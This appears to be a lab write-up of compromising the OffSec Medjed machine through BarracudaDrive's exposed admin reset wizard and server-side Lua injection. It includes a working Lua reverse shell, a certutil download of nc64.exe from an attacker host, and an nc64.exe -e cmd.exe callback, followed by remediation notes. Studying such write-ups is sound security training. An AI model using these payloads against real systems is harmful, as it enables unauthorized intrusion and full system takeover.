# How I Rooted OffSec Medjed: BarracudaDrive CMS Admin Reset and Lua Server Page RCE

> A pure Windows machine compromise through an exposed CMS admin reset wizard, Lua Server Page code injection, and a netcat upgrade to a fully interactive shell as NT AUTHORITY\SYSTEM.

---

## Machine Overview



Medjed is an Intermediate-rated Windows machine on OffSec Proving Grounds that covers web application enumeration across multiple services and CMS exploitation through server-side Lua code execution.

The machine has an unusually large attack surface with 17 open ports, most of which are noise. The key is identifying that the BarracudaDrive CMS on port 8000 exposes an unauthenticated admin reset wizard, which gives access to a CMS page editor that executes server-side Lua code. Injecting a Lua reverse shell through the expert mode page editor returns a shell running as NT AUTHORITY\SYSTEM - no separate privilege escalation needed.

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | Unauthenticated CMS admin reset via exposed setup wizard | Critical | 9.8 |
| 2 | Server-side Lua code injection via CMS page editor | Critical | 9.0 |
| 3 | CMS service running as NT AUTHORITY\SYSTEM | Critical | 9.0 |

**Rationale for scores:**

- **9.8 Critical** - The BarracudaDrive setup wizard is accessible without authentication and allows resetting the admin account to any password. No prior credentials required. AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H.
- **9.0 Critical** - The CMS page editor in expert mode executes arbitrary server-side Lua code with no sandboxing. Any authenticated admin can achieve OS-level command execution via `io.popen`. AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H.
- **9.0 Critical** - The BarracudaDrive service runs as NT AUTHORITY\SYSTEM, meaning code execution through the CMS immediately grants the highest privilege level with no further escalation required. AV:L/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H.

**Techniques covered:**
- Full port scan with --min-rate for OSCP time efficiency
- Multi-service enumeration and attack surface triage
- SMB null and guest session testing
- BarracudaDrive CMS enumeration
- searchsploit vulnerability research
- Unauthenticated admin wizard exploitation
- Server-side Lua code injection via expert mode page editor
- Netcat binary delivery via certutil
- Interactive shell upgrade via nc64.exe

This machine is a good example of why full port scans matter - the initial basic nmap missed port 8000 entirely in its default top-1000 port scan.

---

## Reconnaissance

### Port Scan - Basic vs Full

Initial nmap with default settings:

```bash
nmap 192.168.120.127
```



| Port | Service |
|------|---------|
| 135 | MSRPC |
| 139 | NetBIOS |
| 445 | SMB |
| 3306 | MySQL |
| 8000 | HTTP |

This is incomplete. On OSCP time is the most important resource - running `nmap -p-` without speed flags takes too long. The right approach is a full port scan with aggressive timing:

```bash
nmap -p- --min-rate 5000 -T4 192.168.120.127
```

`-T4` sets an aggressive timing template suitable for stable CTF networks. `--min-rate 5000` ensures at least 5000 packets per second are sent. Together they cut full scan time from minutes to seconds.



12 additional ports discovered including FTP on 30021, multiple web services, and a Barracuda SSL endpoint. Now run service detection only against confirmed open ports:

```bash
nmap -sC -sV -p 135,139,445,3306,5040,8000,30021,33033,44330,45332,45443,49664,49665,49666,49667,49668,49669 -T4 192.168.120.127
```



| Port | Service | Notes |
|------|---------|-------|
| 135/139/445 | SMB | Windows Server 2019 |
| 3306 | MariaDB | Unauthorized - no anonymous access |
| 8000 | BarracudaDrive CMS | WebDAV enabled, PUT allowed |
| 30021 | FileZilla FTP 0.9.41 | Anonymous login allowed, Ruby app files |
| 33033 | Ruby on Rails app | 403 Forbidden, team info page |
| 44330 | SSL/Unknown | Real Time Logic cert, expired 2019 |
| 45332/45443 | Apache PHP | Quiz App |
| 49664-49669 | MSRPC | Standard Windows RPC high ports |

---

## Enumeration

### SMB

First thing to check on any Windows machine is SMB for null or guest access:

```bash
smbclient -L //192.168.120.127/ -N
nxc smb 192.168.120.127 -u '' -p ''
nxc smb 192.168.120.127 -u 'guest' -p ''
```



All denied. Guest account is disabled. SMB is a dead end.

### Web Services Triage

With no SMB access the focus shifts to the four web services. The key is triage - identify the most promising vector first rather than diving deep into one service and wasting time.

**Port 45332 / 45443 - Quiz App**

Apache PHP serving a quiz application with multiple choice answers. Extremely low probability of finding an exploitable vulnerability in a simple quiz UI. Started directory bruteforce in the background and moved on.

**Port 33033 - Ruby on Rails**

Returns 403 Forbidden but fingerprint strings reveal a Rails error page with team member names and descriptions. Useful in an AD environment for username generation, but no domain here. Has a login page worth testing for SQLi or brute force later if needed.

**Port 30021 - Anonymous FTP**

FileZilla FTP with anonymous login allowed. Directory listing shows what looks like a Ruby on Rails application structure - likely the source for the port 33033 service. No credentials or sensitive files immediately visible in the listing.

**Port 8000 - BarracudaDrive CMS**

The most interesting service. WebDAV is enabled with dangerous methods including PUT, DELETE, COPY and MOVE. Visiting the main page redirects after ~10 seconds to:

```
http://192.168.120.127:8000/Config-Wizard/wizard/SetAdmin.lsp
```



An unauthenticated admin reset page. This is the highest value finding on the box.

### Searchsploit Research

```bash
searchsploit barracuda drive
```



```
barracudadrive 3.7.2 - Multiple Vulnerabilities
BarracudaDrive v6.5 - Insecure Folder Permissions
```

The insecure folder permissions exploit targets the BarracudaDrive service binary for privilege escalation. Worth keeping in mind but the admin reset wizard is the faster path.

---

## Initial Access - BarracudaDrive CMS RCE

### Step 1 - Admin Reset via Setup Wizard

The setup wizard at `/Config-Wizard/wizard/SetAdmin.lsp` allows setting a new admin password without any prior authentication. Set a new password and log in to the CMS.





### Step 2 - Locating the Expert Mode Page Editor

Navigate to the CMS admin panel and open the Page Manager. There is an expert mode accessible at:

```
/private/manage/expert.html
```



The page editor allows injecting raw HTML, JavaScript, and server-side Lua code into CMS pages. The server runs Lua Server Pages (LSP) - server-side Lua execution similar to ASP or JSP.

### Step 3 - Testing Code Execution

First tested JavaScript:

```javascript
alert(1)
```



JavaScript executes client-side only. Tried a JavaScript reverse shell from revshells.com - did not work since it runs in the browser, not on the server.

The page states Lua code can also be used. Server-side Lua means OS-level execution. Searched for a Lua reverse shell and found one at: https://gist.github.com/cldrn/372b31c90d7f88be9020020b8e534dc4

### Step 4 - Lua Reverse Shell via LSP Injection

Start the listener:

```bash
nc -lvnp 1337
```

Inject the Lua reverse shell into the page editor:

```lua
<?lsp
local host, port = "192.168.45.246", 1337
local socket = require("socket")
local tcp = socket.tcp()
local io = require("io")
tcp:connect(host, port)
while true do
    local cmd, status, partial = tcp:receive()
    local f = io.popen(cmd, "r")
    local s = f:read("*a")
    f:close()
    tcp:send(s)
    if status == "closed" then break end
end
tcp:close()
?>
```



Save and visit the page in the browser to trigger execution.



Shell received. The initial shell is limited - upgrade to a fully interactive shell using netcat.

### Step 5 - Shell Upgrade via certutil

Deliver nc64.exe to the target using certutil (no upload needed, pulls from our HTTP server):

```bash
python3 -m http.server 8000
```

On the target via the Lua shell:

```
certutil -urlcache -split -f http://192.168.45.246:8000/nc64.exe C:/Windows/Temp/nc64.exe
```



Start second listener:

```bash
nc -lvnp 1337
```

Execute nc64 for a fully interactive shell:

```
C:/Windows/Temp/nc64.exe -e cmd.exe 192.168.45.246 1337
```



```
C:\>whoami
nt authority\system
```

No privilege escalation needed - the BarracudaDrive service runs as SYSTEM.

---

## How Others Solved It vs My Approach

Most public writeups for Medjed follow one of two paths:

**Common approach - WebDAV file upload:**
The majority of writeups exploit the `PUT` method that WebDAV exposes on port 8000. They authenticate to the CMS after the admin reset, then use `curl` or `cadaver` to upload a malicious `.php` or `.lsp` reverse shell file directly to the web root via WebDAV PUT. They then browse to the uploaded file to trigger execution.

**My approach - LSP page editor injection:**
Instead of uploading a file via WebDAV, I found the expert mode page editor at `/private/manage/expert.html` and injected the Lua reverse shell directly into an existing CMS page. This requires no file upload - the code runs the moment the page is visited.

**Why my path is different:**
- No WebDAV tooling needed - just the browser
- No file left on disk in the web root - cleaner from an OPSEC standpoint
- Requires understanding that LSP is server-side Lua, not client-side
- The JavaScript dead end is part of the story - I tested client-side first, understood why it failed, then pivoted to server-side Lua

The privilege escalation path via BarracudaDrive 6.5 insecure folder permissions (replacing `bd.exe`) is documented in searchsploit and used in some writeups when the service does not already run as SYSTEM. In this instance the service was already running as SYSTEM so the privesc step was skipped entirely.

---

## Vulnerability Analysis

---

### Unauthenticated CMS Admin Reset

**Severity:** Critical
**CVSS Score:** 9.8

**Description:** The BarracudaDrive setup wizard at `/Config-Wizard/wizard/SetAdmin.lsp` is accessible without authentication and allows any remote user to set a new admin password, taking full control of the CMS.

**Root Cause:** The configuration wizard was not disabled after initial setup. Setup and configuration endpoints should be protected or removed entirely once a system is deployed.

**Impact:** Any unauthenticated attacker on the network can take over the CMS admin account in seconds, enabling access to all CMS functionality including the page editor used for code injection.

**Remediation:**
- Disable or remove the setup wizard after initial configuration
- Restrict access to the `/Config-Wizard/` path to localhost or an admin network only
- Implement authentication on all administrative endpoints regardless of setup state

---

### Server-Side Lua Code Injection

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** The BarracudaDrive CMS expert mode page editor executes arbitrary server-side Lua code via Lua Server Pages (LSP). Any admin user can inject `io.popen` calls to execute operating system commands with the privileges of the web server process.

**Root Cause:** The page editor was designed for developers and provides unsandboxed access to the Lua runtime including the `io` and `socket` libraries. There is no restriction on what Lua code can be entered or executed.

**Impact:** Full remote code execution as the service account. Combined with the admin reset vulnerability, any unauthenticated attacker achieves OS-level code execution in two steps.

**Remediation:**
- Disable or restrict the expert mode page editor in production deployments
- If Lua scripting must be available, sandbox the runtime to prevent access to `io.popen`, `os.execute`, and socket libraries
- Restrict CMS admin access to specific IP ranges

---

### CMS Service Running as NT AUTHORITY\SYSTEM

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** The BarracudaDrive service process runs under the NT AUTHORITY\SYSTEM account. Any code execution achieved through the CMS immediately grants the highest privilege level on the system.

**Root Cause:** The service was installed with default settings without downgrading its runtime account to a least-privilege service account.

**Impact:** No privilege escalation step required. An attacker achieving code execution through the CMS has immediate SYSTEM-level access to the entire machine.

**Remediation:**
- Run the BarracudaDrive service under a dedicated low-privilege service account
- Apply the principle of least privilege to all web-facing service accounts
- Use Windows Service hardening features to restrict what the service process can do

---

## What I Learned

**Full port scans are non-negotiable even under time pressure.** The basic nmap found 5 ports. The full scan found 17. Port 8000 - the only path to exploitation - was in the initial 5, but the habit of running `-p- --min-rate 5000 -T4` from the start is what separates a complete picture from a partial one. On OSCP you cannot afford to miss ports.

**Triage before diving deep.** With 17 open ports it would have been easy to spend an hour on the quiz app or the Rails login form. The right move is a quick pass across everything first - understand what each service is, rank by exploitation probability, then commit to the most promising one. Port 8000 stood out immediately because an unauthenticated admin reset page is almost never a false lead.

**Client-side vs server-side matters for code injection.** JavaScript ran but only in my browser - it was never going to give me a shell. Understanding that LSP is server-side Lua execution is what made the pivot work. When a CMS says it supports Lua scripting, that means server-side, which means OS access.

**Not everything needs privilege escalation.** I found the searchsploit result for BarracudaDrive insecure folder permissions and started mentally preparing the privesc chain - then the initial shell came back as SYSTEM. The lesson is to always check `whoami` before doing anything else. You might already be done.
